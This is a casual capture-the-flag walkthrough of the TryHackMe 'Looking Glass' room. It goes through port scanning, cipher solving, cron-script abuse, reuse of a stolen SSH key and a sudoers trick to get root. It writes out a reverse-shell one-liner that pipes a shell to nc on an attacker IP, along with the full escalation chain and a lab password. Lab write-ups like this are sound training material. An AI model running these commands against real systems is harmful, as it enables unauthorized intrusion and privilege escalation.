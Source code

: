 # Looking Glass
[Play](https://tryhackme.com/room/lookingglass)

## Recon

nmap scan:

```
❯ nmap -script=default -sV -A -T4 10.10.216.198
Starting Nmap 7.91 ( https://nmap.org ) at 2021-02-27 23:58 EST
Nmap scan report for 10.10.216.198
Host is up (0.23s latency).
Not shown: 916 closed ports
PORT      STATE SERVICE    VERSION
22/tcp    open  ssh        OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 3f:15:19:70:35:fd:dd:0d:07:a0:50:a3:7d:fa:10:a0 (RSA)
|   256 a8:67:5c:52:77:02:41:d7:90:e7:ed:32:d2:01:d9:65 (ECDSA)
|_  256 26:92:59:2d:5e:25:90:89:09:f5:e5:e0:33:81:77:6a (ED25519)
9000/tcp  open  ssh        Dropbear sshd (protocol 2.0)
| ssh-hostkey: 
|_  2048 ff:f4:db:79:a9:bc:b8:8a:d4:3f:56:c2:cf:cb:7d:11 (RSA)
9001/tcp  open  ssh        Dropbear sshd (protocol 2.0)
| ssh-hostkey: 
|_  2048 ff:f4:db:79:a9:bc:b8:8a:d4:3f:56:c2:cf:cb:7d:11 (RSA)
9002/tcp  open  ssh        Dropbear sshd (protocol 2.0)
| ssh-hostkey: 
|_  2048 ff:f4:db:79:a9:bc:b8:8a:d4:3f:56:c2:cf:cb:7d:11 (RSA)
9003/tcp  open  ssh        Dropbear sshd (protocol 2.0)
```

This goes on for a while ... wtf? 

The website does not show shit, so gobuster is useless. At first i thought this was some bug, but I took a look at the hint, and it made sense: `O(log n) A looking glass is a mirror.` It's binary search to find the correct port! Let's do `ssh root@IP -p 9000` and move accordingly. Ah for the lowest its showing 'Lower' and for the highest its showing 'Higher'. Now the mirror part makes sense.

Lesgoo manual bruteforce ... yaayyyyyyyy :D the best thing ever!

```
❯ ssh root@10.10.216.198 -p 9220
Lower
Connection to 10.10.216.198 closed.
❯ ssh root@10.10.216.198 -p 9290
Higher
Connection to 10.10.216.198 closed.
```

aiyoo wtf is this shit. No other port in between ;-; Finally I stumble upon the port. What a pain! Also that port isn't shown for some reason hmmmmm

So we get:

```
You've found the real service.
Solve the challenge to get access to the box
Jabberwocky
'Mdes mgplmmz, cvs alv lsmtsn aowil
Fqs ncix hrd rxtbmi bp bwl arul;
Elw bpmtc pgzt alv uvvordcet,
Egf bwl qffl vaewz ovxztiql.

'Fvphve ewl Jbfugzlvgb, ff woy!
Ioe kepu bwhx sbai, tst jlbal vppa grmjl!
Bplhrf xag Rjinlu imro, pud tlnp
Bwl jintmofh Iaohxtachxta!'

Oi tzdr hjw oqzehp jpvvd tc oaoh:
Eqvv amdx ale xpuxpqx hwt oi jhbkhe--
Hv rfwmgl wl fp moi Tfbaun xkgm,
Puh jmvsd lloimi bp bwvyxaa.

Eno pz io yyhqho xyhbkhe wl sushf,
Bwl Nruiirhdjk, xmmj mnlw fy mpaxt,
Jani pjqumpzgn xhcdbgi xag bjskvr dsoo,
Pud cykdttk ej ba gaxt!

Vnf, xpq! Wcl, xnh! Hrd ewyovka cvs alihbkh
Ewl vpvict qseux dine huidoxt-achgb!
Al peqi pt eitf, ick azmo mtd wlae
Lx ymca krebqpsxug cevm.

'Ick lrla xhzj zlbmg vpt Qesulvwzrr?
Cpqx vw bf eifz, qy mthmjwa dwn!
V jitinofh kaz! Gtntdvl! Ttspaj!'
Wl ciskvttk me apw jzn.

'Awbw utqasmx, tuh tst zljxaa bdcij
Wph gjgl aoh zkuqsi zg ale hpie;
Bpe oqbzc nxyi tst iosszqdtz,
Eew ale xdte semja dbxxkhfe.
Jdbr tivtmi pw sxderpIoeKeudmgdstd
Enter Secret:
```

Apparently its using the vignere cipher. Don't ask me how I know this. I just know it, ok?

`bewareTheJabberwock` is the last line!

Once we do that, we get:
```
Enter Secret: <:D>
jabberwock:WaxworksPreciousUnfastenedSorry
```

## Foothold

Let's login using the ssh 22 port (default).

```
jabberwock@looking-glass:~$ ls
poem.txt  twasBrillig.sh  user.txt
```

```
jabberwock@looking-glass:~$ sudo -l
Matching Defaults entries for jabberwock on looking-glass:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User jabberwock may run the following commands on looking-glass:
    (root) NOPASSWD: /sbin/reboot
```

The `poem.txt` is the jabberwock poem we saw earlier. Now what?

```
jabberwock@looking-glass:/home$ ls
alice  humptydumpty  jabberwock  tryhackme  tweedledee  tweedledum
```

Well ... this is going to be a pain :/

So one important thing to look at is `crontab`, when nothing else is leading anywhere. We get:

```
jabberwock@looking-glass:~$ cat /etc/crontab
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user  command
17 *    * * *   root    cd / && run-parts --report /etc/cron.hourly
25 6    * * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6    * * 7   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6    1 * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
#
@reboot tweedledum bash /home/jabberwock/twasBrillig.sh
```

Now from `sudo -l` we saw we can reboot. Sweet! We can just put our things in `twasBrillig.sh` to get into tweedledum. What to put in? `bash`. That's what I did. And that NOT what you should do.

do this instead `echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc MY_IP 1234 >/tmp/f" > twasBrillig.sh`, which puts this line in the `twasBrilling.sh` file.

Now my dumbass just put in bash, without realising that the port (which we found initially) was resected at each reboot. great.

Don't screup here! I'm just hoping this works :/ Well. Fuck. 3rd time.

Now that works :DDD. We first get a proper shell using `python3 -c "import pty;pty.spawn('/bin/bash')"`

```
tweedledum@looking-glass:~$ sudo -l
sudo -l
Matching Defaults entries for tweedledum on looking-glass:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User tweedledum may run the following commands on looking-glass:
    (tweedledee) NOPASSWD: /bin/bash
```

Not as much powerful of a user I see.

```
tweedledum@looking-glass:~$ cat humptydumpty.txt
cat humptydumpty.txt
dcfff5eb40423f055a4cd0a8d7ed39ff6cb9816868f5766b4088b9e9906961b9
7692c3ad3540bb803c020b3aee66cd8887123234ea0c6e7143c0add73ff431ed
28391d3bc64ec15cbb090426b04aa6b7649c3cc85f11230bb0105e02d15e3624
b808e156d18d1cecdcc1456375f8cae994c36549a07c8c2315b473dd9d7f404f
fa51fd49abf67705d6a35d18218c115ff5633aec1f9ebfdc9d5d4956416f57f6
b9776d7ddf459c9ad5b0e1d6ac61e27befb5e99fd62446677600d7cacef544d0
5e884898da28047151d0e56f8dc6292773603d0d6aabbdd62a11ef721d1542d8
7468652070617373776f7264206973207a797877767574737271706f6e6d6c6b
```

This looks like a hash, so we can do a hash identification. However, I did not find anything special here. So, it may as well be a series of hashes?

Using [this tool](https://hashes.com/en/tools/hash_identifier), yes it is!


![](https://i.imgur.com/L7kQNZ2.png)

hell yeah! 

We do not find anything here, other than some more random `poetry.txt`. What's left is the user alice. So check out what we can view? Well nothing in the `~`, but what abuot `.ssh`? Maybe we can get a RSA key?!

```
humptydumpty@looking-glass:/home/alice$ ls -la .ssh/id_rsa
ls -la .ssh/id_rsa
-rw------- 1 humptydumpty humptydumpty 1679 Jul  3  2020 .ssh/id_rsa
humptydumpty@looking-glass:/home/alice$ cat .ssh/id_rsa
cat .ssh/id_rsa
-----BEGIN RSA PRIVATE KEY-----
.....
-----END RSA PRIVATE KEY-----
```

Nice. Very nice.

```
❯ ssh alice@10.10.216.198 -i id.id
@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@
@         WARNING: UNPROTECTED PRIVATE KEY FILE!          @
@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@
Permissions 0644 for 'id.id' are too open.
It is required that your private key files are NOT accessible by others.
This private key will be ignored.
Load key "id.id": bad permissions
alice@10.10.216.198's password: 

❯ chmod 600 id.id
❯ ssh alice@10.10.216.198 -i id.id
Last login: Fri Jul  3 02:42:13 2020 from 192.168.170.1
alice@looking-glass:~$ ls
kitten.txt
```

## Priv Esc
So since we are in, with a stable connection, lets run `linpeas.sh` :D

Transfer using: `❯ scp -i path/to/id path/to/linpeas.sh alice@BOX_ID:~`

```
[+] Sudo version
[i] https://book.hacktricks.xyz/linux-unix/privilege-escalation#sudo-version                                                         
Sudo version 1.8.21p2 
```

For setuid:
```
Files with capabilities:
/usr/bin/mtr-packet = cap_net_raw+ep
```

That did not work ... but something else did:

```
alice@looking-glass:~$ cat /etc/sudoers.d/alice
alice ssalg-gnikool = (root) NOPASSWD: /bin/bash
```

```
alice@looking-glass:~$ sudo -h ssalg-gnikool /bin/bash
sudo: unable to resolve host ssalg-gnikool
root@looking-glass:~# 
```
